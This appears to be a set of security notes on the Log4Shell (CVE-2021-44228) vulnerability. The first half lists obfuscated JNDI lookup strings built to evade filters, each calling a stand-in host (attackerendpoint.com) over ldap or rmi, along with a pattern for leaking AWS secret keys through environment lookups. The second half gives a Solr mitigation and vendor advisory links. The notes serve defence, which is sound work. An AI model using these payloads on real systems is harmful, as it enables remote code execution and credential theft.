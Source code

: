 ## several bypass techniques include:
- `${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}`
- `${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}`
- `${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}`
- `${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}`
- `${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}`
- `${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}`
- `${${::-j}ndi:rmi://attackerendpoint.com/}`

## noting that the last two techniques use the `rmi://` protocol which is also valid and can be used with the `marshalsec` utility
## additionally, log4j can expand environent variables to exfiltrate dangerous information like `${env:AWS_SECRET_ACCESS_KEY}`

# Mitigation
## Link for Apache Solr: https://solr.apache.org/security.html
## we have to add the below line to `/etc/default/solr.in.sh`
`SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`
## and restart the Apache Solr Service:
`sudo /etc/init.d/solr restart`

# Other affected Services:
https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/#affected-products
## Including Oracle
https://www.oracle.com/security-alerts/alert-cve-2021-44228.html
## And Sophos
https://www.sophos.com/en-us/security-advisories/sophos-sa-20211210-log4j-rce
## ManageEngine
https://pitstop.manageengine.com/portal/en/community/topic/log4j-ad-manager-plus
## Citrix
https://support.citrix.com/article/CTX335705
## Fortinet
https://www.fortiguard.com/psirt/FG-IR-21-245
## VMware
https://kb.vmware.com/s/article/87068?lang=en_US
## Openfire
https://discourse.igniterealtime.org/t/openfire-4-6-5-released/91108